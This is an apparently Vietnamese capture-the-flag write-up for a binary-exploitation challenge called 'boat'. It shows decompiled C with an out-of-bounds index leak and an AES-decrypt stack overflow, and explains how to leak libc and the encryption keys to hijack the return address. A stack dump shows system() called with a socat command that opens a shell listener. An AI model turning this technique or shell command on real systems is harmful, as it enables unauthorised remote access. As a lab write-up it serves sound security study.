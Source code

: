 # write up boat
- bài boat là bài sẽ cho chạy nhiều chương trình con ẩn với cùng 1 binary, và chương trình chính là chương trình sẽ có interface ở ngoài để tương tác
- chương trình parent sẽ có quyền gửi cho các chương trình child những đoạn tin mã hóa với 1 format data nhất định và child cũng có thể spam tin nhắn như vậy, nhưng bug xảy ra khi ta có thể khai thác thông qua oob và buffer trong chương trình
```c
  bytes_recv = slot_size[(char)msg->data[4]];
  send_bin_ack(bin_msg->boat_id, bytes_recv);
```
- tại đây sau khi tin nhắn được gửi tới thì các hàm sẽ parse ra để lấy thông tin, tuy nhiên tại đây msg->data[4] không được oob nên khi vào đây ta có thể leak được thông tin vì sau khi bytes được recv ở đây  thì nó sẽ gửi đi trả lại cho người gửi nên khi gửi tin cho boat 1031 là ip thì boat 1031 sẽ gửi lại nội dung trong bytes_recv, và lúc này sẽ có địa chỉ bị leak
- đây chính là hàm parse tin nhắn
```c
void __cdecl process_msg(ais_frame_t *msg)
{
  int type; // edx
  int v2; // [esp-8h] [ebp-10h]

  type = msg->type;
  if ( type == 8 )
  {
    if ( g_logging && g_my_id == 1031 )
      dprintf(g_logging_fd, (int)"Received binary broadcast message\n", v2);
    process_BDC_MSG(msg);
  }
  else
  {
    if ( msg->type > 8u )
      goto LABEL_18;
    if ( type == 7 )
    {
      log_BIN_UNC_ack(msg);
      return;
    }
    if ( msg->type > 7u )
      goto LABEL_18;
    if ( type == 1 )
    {
      process_POS_REPORT(msg);
      return;
    }
    if ( type == 6 )
    {
      if ( g_logging && g_my_id == 1031 )
        dprintf(g_logging_fd, (int)"Received binary address message\n", v2);
      process_BIN_UNC(msg);
    }
    else
    {
LABEL_18:
      if ( g_logging )
      {
        if ( g_my_id == 1031 )
          dprintf(g_logging_fd, (int)"Unknown message type %d\n", msg->type);
      }
    }
  }
}
```
- sau khi có libc và có mọi thứ tiếp theo là overwrite thông qua buffer 
```
void __cdecl handle_AES_FI_MSG(AIS_BIN_UNC_t *msg)
{
  char static_msg[90]; // [esp+Eh] [ebp-6Ah] BYREF
  int decrypted_bytes; // [esp+68h] [ebp-10h]
  AES_MSG_t *aes_data; // [esp+6Ch] [ebp-Ch]

  aes_data = (AES_MSG_t *)msg->data;
  decrypted_bytes = decrypt(
                      (unsigned __int8 *)msg->data,
                      slot_size[msg->slot_size],
                      boats[0].key,
                      boats[0].iv,
                      (unsigned __int8 *)static_msg);
  if ( g_logging )
  {
    if ( g_my_id == 1031 )
      dprintf(g_logging_fd, (int)"Decrypted AES MSG: %s\n", (int)static_msg);
  }
}
```
- đây chính là hàm bị buffer do có thể sửa slot_size chính là lentext lúc decrypt
```
int __cdecl decrypt(
        unsigned __int8 *ciphertext,
        int ciphertext_len,
        unsigned __int8 *key,
        unsigned __int8 *iv,
        unsigned __int8 *plaintext)
{
  int v5; // eax
  int v7; // [esp+4h] [ebp-14h] BYREF
  int v8; // [esp+8h] [ebp-10h]
  int v9; // [esp+Ch] [ebp-Ch]

  v9 = EVP_CIPHER_CTX_new();
  if ( !v9 )
    handleErrors();
  v5 = EVP_aes_256_cbc();
  if ( EVP_DecryptInit_ex(v9, v5, 0, key, iv) != 1 )
    handleErrors();
  if ( EVP_DecryptUpdate(v9, plaintext, &v7, ciphertext, ciphertext_len) != 1 )
    puts("DEC UPDATE ERR");
  v8 = v7;
  if ( EVP_DecryptFinal_ex(v9, &plaintext[v7], &v7) != 1 )
    puts("DEC FINAL ERR");
  v8 += v7;
  EVP_CIPHER_CTX_free(v9);
  return v8;
}
```
- vậy là chỉ cần truyền gói tin vào là có thể buffer được rip, nhưng vấn đề tin gửi vào là tin mã hóa nên ta cũng phải mã hóa nó theo kiểu EVP cipher
- hàm mã hóa cũng có thể có sẵn
- nhưng mà gói tin bắt được sử dụng key và iv của boat 1031 mã hóa nên để gửi đi được thì phải có key, iv
- sử dụng lại việc leak libc để leak được key và iv
- rồi tiếp theo mã hóa lại và gửi đi, khi giải mã ra hàm sẽ bị tràn và rip sẽ được setup
```assembly
00:0000│ esp 0xf75ff2b0 —▸ 0x5655c184 (boats+100) ◂— 'socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0'
01:0004│     0xf75ff2b4 —▸ 0xf7622f08 ◂— pop ebx
02:0008│     0xf75ff2b8 —▸ 0x5655bff4 (_GLOBAL_OFFSET_TABLE_) ◂— 0x6ee0
03:000c│     0xf75ff2bc —▸ 0x565562d0 (system@plt) ◂— jmp dword ptr [ebx + 0b4h]
04:0010│     0xf75ff2c0 —▸ 0x5655c184 (boats+100) ◂— 'socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0'
```
- setup thì sẽ setup thông qua reverse shell để lấy được shell  
